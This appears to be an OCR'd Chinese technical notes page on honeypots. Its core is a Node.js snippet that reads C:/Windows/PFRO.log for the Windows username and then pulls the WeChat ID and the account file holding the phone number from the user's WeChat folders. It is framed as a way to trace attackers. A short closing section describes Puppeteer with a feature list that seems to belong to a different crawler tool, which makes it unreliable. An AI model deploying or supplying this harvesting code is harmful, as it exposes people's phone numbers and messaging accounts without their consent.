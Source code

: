 蜜罐技术即故意暴露一些设计好的漏洞，引诱黑客进行攻击，便于提供丰富的溯源数据，但蜜罐存在安全隐患，如果没有做好隔离，可能称为新的攻击源

### 使用蜜罐技术获取手机号与微信号

整个过程分为三步：

1. 读取`PFRO`日志文件找出用户名
2. 通过用户名找到对应的wxid
3. 通过微信ID读取微信信息

```js
// 读取PFRO文件
fs.readFile('C:/Windows/PFRO.log', async (err, data) => {
    const exp = /Users\\([^\\]*)/ig
    exp.test(data.toString('utf16le'))
    const userName = RegExp.$1
    const wxId = await getWxId(userName)
    const info = await getData(userName, wxId)
    console.log(info);

})

// 获取微信ID
const getWxId = <T>(path: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/All Users/config/config.data`).toString('utf8')
    const reg = /Documents\\WeChat Files\\([^\\]*)/ig
    reg.test(data)
    return RegExp.$1
}

//读取信息
const getData = <T>(path: T, wxId: T) => {
    const data = fs.readFileSync(`C:/Users/${path}/Documents/WeChat Files/${wxId}/config/AccInfo.dat`).toString('utf-8')
    return data

}
```

## 自动化UI测试（JS

JS也有自己的自动化测试工具Puppeteer，他支持：

- 支持分布式爬取
- 实现了深度优先和广度优先算法
- 支持csv和json line格式导出
- 插件式的结果存储，比如支持redis
- 自动插入jquery，可以使用jquery语法进行结果处理
- 支持截图作为爬取证据
- 支持模拟不同的设备

并且带了 Chromium不用额外配置
